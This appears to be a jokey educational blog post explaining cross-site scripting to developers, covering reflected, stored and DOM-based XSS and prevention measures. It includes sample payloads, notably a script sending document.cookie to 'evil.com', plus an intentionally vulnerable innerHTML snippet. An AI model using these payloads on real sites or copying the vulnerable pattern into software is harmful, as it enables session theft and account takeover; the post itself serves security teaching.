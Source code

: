 ```yaml
---
title: "XSS: I'm Not Touching That With a 10-Foot Pole (Unless It's Got a Payload)"
date: "2025-04-14"
tags: [XSS]
description: "A mind-blowing blog post about XSS, written for chaotic Gen Z engineers. Prepare to have your mind blown... or at least mildly inconvenienced."

---
```


**Alright, zoomers, listen up. You think you're hot stuff because you can write `console.log("Hello, World!")`? Think again. Today, we're diving into the abyss of XSS, or as I like to call it, 'Why your website is basically a giant, vulnerable pinata.'**

Let's be honest, security is boring. It's like flossing. You *know* you should do it, but you'd rather doomscroll TikTok until 3 AM. But trust me, XSS is the digital equivalent of herpes. It sticks with you.

![Doge security meme](https://i.kym-cdn.com/photos/images/newsfeed/000/847/002/3a3.png)
*(Actual image may vary based on my laziness in finding a good Doge meme. You get the point.)*

**What is XSS, Anyway? (For the Chronically Uninformed)**

XSS, or Cross-Site Scripting, is basically when an attacker injects malicious scripts into your website. Imagine your website is a carefully crafted sandwich. XSS is like someone sneaking in a razor blade disguised as lettuce. Suddenly, your perfectly innocent sandwich (website) is trying to kill its consumers (users). Yikes.

Think of it like this: Your website has a comment section. Someone types in: `<script>window.location='https://evil.com/?cookie='+document.cookie</script>`. Now, every time someone views that comment, their cookies are sent to evil.com. Congrats, you just became an accomplice in a digital robbery. 💀🙏

**Types of XSS: A Taxonomy of Terror**

*   **Reflected XSS:** The attack payload is embedded in the request. It's like when your mom roasts you so hard that it echoes in your head for days. The server spits the payload right back out, executing the malicious script in the user's browser. Classic, brutal, and easily preventable with proper input validation.

    `https://vulnerable.website.com/search?q=<script>alert('BOOM!')</script>`

    If that pops an alert box, you've got a problem, Houston.
*   **Stored XSS:** The attack payload is stored on the server. This is the worst kind. It's like finding mold in your apartment – it just keeps coming back, no matter how hard you scrub. Every user who visits the page containing the stored payload gets pwnd. Think comment sections, forum posts, profile pages... basically anywhere user input is stored.

    Someone posts: `<img src="x" onerror="evilFunction()">` to your forums. Now everyone gets the virus. Have fun telling your boss why customer data is being sold on the dark web.
*   **DOM-based XSS:** This is where things get *really* spicy. The vulnerability exists in the client-side code (JavaScript) itself. The server is innocent in this scenario! Your own damn JavaScript is the problem. It's like blaming your roommate for your bad life choices.
    Imagine you have this javascript on your page:

    ```javascript
    // DO NOT USE THIS CODE
    var search = document.location.hash.substring(1); //Get the part after #
    document.getElementById("results").innerHTML = "You searched for: " + search;
    ```

    If you go to: `website.com/#<img src=x onerror=alert('XSS')>` then the onerror event will run when the broken `<img>` tag fails to load.

    ![DOM XSS meme](https://i.imgflip.com/49811p.jpg)
    *(Yes, I stole that meme. Sue me.)*

**Real-World Use Cases (AKA Stories to Keep You Up at Night)**

*   **Stealing Session Cookies:** The classic. Get their cookies, become them. Profit. It's the easiest way to impersonate a user and wreak havoc on their account. Bonus points for stealing admin cookies.
*   **Keylogging:** Record everything a user types on the page. Credit card numbers, passwords, secret recipes for grandma's cookies... you name it.
*   **Phishing:** Redirect users to a fake login page to steal their credentials. It's like catfishing, but for websites.
*   **Defacement:** Change the appearance of the website. Replace the logo with a picture of a goat, post embarrassing messages, etc. It's all about sending a message (and probably getting fired).

**Edge Cases: Where Things Get Weirder Than Your Uncle at Thanksgiving**

*   **Mutated XSS:** Attack payloads that morph and change as they pass through different parts of the system. It's like a chameleon wearing a disguise, within a disguise, within another disguise. Good luck tracking that down.
*   **Blind XSS:** The attacker has no immediate feedback on whether the attack worked. They inject the payload and hope for the best. It's like sending a message in a bottle and praying that someone finds it… and that the message detonates a nuke on their server.
*   **XSS in PDFs:** Yes, even PDFs can be vulnerable. Because why not? Let's just make every file format a potential security nightmare.
*   **XSS through WebSockets:** Sending XSS payloads over web sockets.

**Common F\*ckups (AKA "How to Get Pwnd 101")**

*   **Trusting User Input:** NEVER, EVER, EVER trust user input. Sanitize everything. Assume everyone is trying to hack you, because they probably are. You're all just meat to them.
*   **Using `innerHTML` Without Sanitization:** `innerHTML` is basically the "sudo rm -rf /" of the DOM. Use it with caution (or, better yet, don't use it at all). `textContent` is your friend.
*   **Relying on Client-Side Validation:** Client-side validation is a joke. It's like putting a lock on your screen door and thinking it's going to stop a burglar. Always validate on the server-side.
*   **Not Encoding Output:** When displaying user input, encode it properly to prevent it from being interpreted as code. Use HTML entities (e.g., `&lt;` for `<`).
*   **Copy-Pasting Code From Stack Overflow Without Understanding It:** Congrats, you just added another vulnerability to your codebase. You absolute champion. ![facepalm](https://i.kym-cdn.com/photos/images/newsfeed/000/242/631/382.gif)

**Preventing XSS: The Only Thing Standing Between You and Total Chaos**

*   **Input Validation and Sanitization:** Validate and sanitize all user input. White list allowed characters and formats. Reject anything that looks suspicious. Treat every user like a potential cybercriminal.
*   **Output Encoding:** Encode all output before displaying it to the user. Use appropriate encoding methods for the context (e.g., HTML encoding, URL encoding, JavaScript encoding).
*   **Content Security Policy (CSP):** Use CSP to restrict the sources from which the browser can load resources. It's like putting your website on lockdown.
*   **HTTPOnly Cookies:** Set the HTTPOnly flag on cookies to prevent JavaScript from accessing them. This makes it harder for attackers to steal cookies via XSS.
*   **Regular Security Audits and Penetration Testing:** Hire someone to try and hack your website. It's like paying a professional to find the flaws in your masterpiece (or, more likely, your dumpster fire).

**Conclusion: Embrace the Chaos (But Don't Get Hacked)**

XSS is a serious threat, but it's also a fascinating challenge. The key to preventing XSS is to be paranoid, skeptical, and never, ever trust anyone. Think like an attacker, understand the vulnerabilities, and implement robust security measures.

And remember, even the most secure websites can be vulnerable. Stay vigilant, keep learning, and never stop patching.

Now go forth and secure your digital empires... or at least try not to get completely owned. Good luck, you magnificent bastards. You'll need it. 😈
